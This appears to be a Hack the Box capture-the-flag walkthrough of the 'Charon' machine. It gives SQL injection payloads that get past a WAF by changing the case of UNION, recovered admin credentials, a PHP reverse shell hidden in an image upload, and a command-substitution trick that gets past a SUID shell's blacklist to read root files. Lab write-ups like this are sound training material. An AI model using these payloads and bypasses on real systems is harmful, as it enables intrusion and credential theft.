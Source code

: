 ```yaml
---
layout: post
title:  "Hack the Box - Charon"
date:   2017-11-17 16:16:01 -0600
categories: hackthebox sqli html escape hacking writeup
---
```


<img class="header-img" src="{{ "img/charon/home.png" | relative_url }}" />

The first step, as (almost) always, is to enumerate any open ports on the machine.

{% highlight shell %}
~ » nmap 10.10.10.31 -sS -A
Nmap scan report for 10.10.10.31
Host is up (0.022s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; p
| ssh-hostkey:
|   2048 09:c7:fb:a2:4b:53:1a:7a:f3:30:5e:b8:6e:ec:83:ee (RSA)
|   256 97:e0:ba:96:17:d4:a1:bb:32:24:f4:e5:15:b4:8a:ec (ECDSA)
|_  256 e8:9e:0b:1c:e7:2d:b6:c9:68:46:7c:b3:32:ea:e9:ef (EdDSA)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Frozen Yogurt Shop
Warning: OSScan results may be unreliable because we could not find a
Device type: general purpose
Running (JUST GUESSING): Linux 3.X|4.X|2.6.X (91%)
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4 cpe:/
Aggressive OS guesses: Linux 3.11 - 4.1 (91%), Linux 3.2.0 (90%), Lin%), Linux 3.10 - 4.8 (85%), Linux 3.2 - 4.8 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   22.54 ms 10.10.14.1
2   22.95 ms 10.10.10.31

OS and Service detection performed. Please report any incorrect resul
Nmap done: 1 IP address (1 host up) scanned in 20.81 seconds
{% endhighlight %}

Only 22 and 80 are open, so let's continue to enumerate and see what we can find on port 80. It appears to be a page for the "Freeeze" frozen yogurt shop. Everything is static except for the blog posts, which have URLs of the form: `http://charon.htb/singlepost.php?id=10`. Simple manual testing indicates that this is vulnerable -
{% highlight shell %}
http://charon.htb/singlepost.php?id=0%20union%20select%201,1,1,1,1
{% endhighlight %}
so let's put sqlmap on the case, and keep moving forward:
{% highlight shell %}
~ » sqlmap -u "http://charon.htb/singlepost.php?id=10" --level=5 --risk=3 --technique=U
{% endhighlight %}
(Bizarrely, sqlmap fails on this simple injection. In any case, this database isn't useful to us.)

Moving onwards, what should stick out to you is that the footer indicates this site is powered by "SuperCMS." That means we should definitely start looking for the login portal for "SuperCMS." This doesn't appear to be an actual CMS system, so we'll have to fall back to dirbuster to enumerate. I used the default wordlist `directory-list-2.3-medium.txt` which pretty quickly hits `/cmsdata/login.php`.

This leads us to a login page that appears not to be vulnerable to SQL injection, and a "Forgot Password" page that looks like it might be. The reasoning here is that the Login page returns the same error messages no matter what is passed, and has no discernible blind SQLi vulnerabilities. Meanwhile, the forgot password page gives at least 2 different types of errors:
```
' -> Incorrect format
x@x.c -> User not found with that email!
```

A handy trick for running / debugging sqlmap is to run it through Burpsuite:
{% highlight shell %}
~ » sqlmap -u "http://charon.htb/cmsdata/forgot.php" --data="email=x@x.c"  --level=5 --risk=3 --proxy=http://localhost:8080
{% endhighlight %}
sqlmap comes back with a potential blind SQLi vulnerability:
{% highlight shell %}
[...]
sqlmap identified the following injection point(s) with a total of 1122 HTTP(s) requests:
---
Parameter: email (POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: email=x@x.c' RLIKE (SELECT (CASE WHEN (3782=3782) THEN 0x7840782e63 ELSE 0x28 END))-- DcMQ
---
[14:26:33] [INFO] the back-end DBMS is MySQL
[...]
{% endhighlight %}
but something that sticks out right away are the responses for UNION based injections:
<img src="{{ "img/charon/burp.png" | relative_url }}" />

Their response size and error message were drastically different than the rest, so let's take a closer look.

Working our way down the  <a href="https://www.owasp.org/index.php/SQL_Injection_Bypassing_WAF">WAF Bypassing Strings list</a>, we quickly find that changing the casing on `UNION` gets us past the error. Using the limitations that we know of (the queryset must return an email), and expanding the union count, we hit the jackpot on:
`' UnION SELECT 'x@x.c', 'x@x.c', 'x@x.c', 'x@x.c`
<img src="{{ "img/charon/bingo.png" | relative_url }}" />

The next step is to subsitute different values for `x@x.c` to see what gets echoed back to us and what has to be an email. After a short period, we quickly find this:
`' UnION SELECT '', (payload), '', 'x@x.c`.
From there we either manually query the database, or use our favorite tool, but we can quickly get the list of users and passwords (there are some other tricky aspects to this SQLi like dummy data, orderings, etc., but I'll leave that to the reader as an exercise):
`super_cms_adm / tamarro`

After logging in, there a few possible vulnerabilities: we can edit existing pages, create new pages, and upload images. Let's take a look at the image upload first. After doing a few probing tests, it's discovered that there is both client and server-side checks to make sure we're uploading an actual image, and that the extension is that of an image. Right when we're about to call this a dead end, we inspect the HTML source and see something funny:
{% highlight html %}
<form action="upload.php" method="POST" onsubmit="javascript:return ValidateImage(this);" name="frm" enctype="multipart/form-data">
<input type="file" name="image" />
<!-- <input type=hidden name="dGVzdGZpbGUx"> -->
<input type="submit"/>
</form>
{% endhighlight %}

`dGVzdGZpbGUx` looks a lot like base64, and when we decode it, we get `testfile1`, so clearly this is a tool for testing the upload. What happens when we decode it, give it a value, and try to upload something (I took a Blank.png file and inserted a reverse PHP shell into the middle of it to bypass the image restrictions):
<img src="{{ "img/charon/burp2.png" | relative_url }}" />

It renames the file for us! This lets us rename our "image" to a `.php` file and the web server will execute it as PHP and give us a reverse shell.

Once on the box, we quickly `cd` to `/home/decoder` and find a public key and encrypted password.
{% highlight shell %}
$ cat decoder.pub
-----BEGIN PUBLIC KEY-----
MDwwDQYJKoZIhvcNAQEBBQADKwAwKAIhALxHhYGPVMYmx3vzJbPPAEa10NETXrV3
mI9wJizmFJhrAgMBAAE=
-----END PUBLIC KEY-----
{% endhighlight %}

This is an extremely short key, and is trivially breakable (via something like <a href="https://github.com/Ganapati/RsaCtfTool">RsaCtfTool</a>). Once we break it and get the private key, we can decrypt `pass.crypt` which gives us the ssh password for decoder.

Now we can SSH in as decoder, `cat user.txt` and begin to think about priv esc. One of my first steps during priv esc is always `sudo -l` and to look for SUID/SGID binaries:
{% highlight shell %}
$ find / -perm -u=s -type f 2>/dev/null
/usr/local/bin/supershell
/usr/lib/openssh/ssh-keysign
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/bin/pkexec
/usr/bin/sudo
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/at
/usr/bin/newgidmap
/usr/bin/newuidmap
/bin/ntfs-3g
/bin/ping6
/bin/mount
/bin/fusermount
/bin/umount
/bin/ping
/bin/su
{% endhighlight %}

`supershell` is obviously very suspect here, and is our most likely route to root. Let's try to figure out how this works:
{% highlight shell %}
$ supershell
Supershell (very beta)
usage: supershell <cmd>
$ supershell cat /root/root.txt
Supershell (very beta)
usage: supershell <cmd>
$ ltrace supershell
__libc_start_main(0x40082f, 1, 0x7fff323b28d8, 0x400940 <unfinished ...>
puts("Supershell (very beta)"Supershell (very beta)
)                                     = 23
puts("usage: supershell <cmd>"usage: supershell <cmd>
)                                    = 24
exit(1 <no return ...>
+++ exited (status 1) +++
$ ltrace supershell "ls ."
__libc_start_main(0x40082f, 2, 0x7ffc3bb1aa88, 0x400940 <unfinished ...>
puts("Supershell (very beta)"Supershell (very beta)
)                                     = 23
strncpy(0x7ffc3bb1a890, "ls ,", 255)                               = 0x7ffc3bb1a890
strcspn("ls ,", "|`&><'"\\[]{};#")                                 = 4
strlen("ls ,")                                                     = 4
strncmp("ls ,", "/bin/ls", 7)                                      = 61
+++ exited (status 0) +++
{% endhighlight %}

So, it's making sure we're _only_ running `/bin/ls` and that our input doesn't contain any of `` |&><'"\\[]{};#\` ``. To get around this requires a little bash knowledge, and a little creativity. First, it's pretty obviously missing a 3 big characters from it's blacklist: `$()`. This lets us execute a command _before_ `ls` runs. After doing a few local tests, it seems `ls` outputs the full file contents of a file if you try to list it:

{% highlight shell %}
~ » echo "givemeroot" > test_file
~ » ls "$(cat test_file)"
ls: cannot access 'givemeroot': No such file or directory
{% endhighlight %}

From there, it's simple:

{% highlight shell %}
$ supershell "/bin/ls \$(cat /root/root.txt)"
/bin/ls: cannot access 'REDACTED': No such file or directory
{% endhighlight %}

_fin_
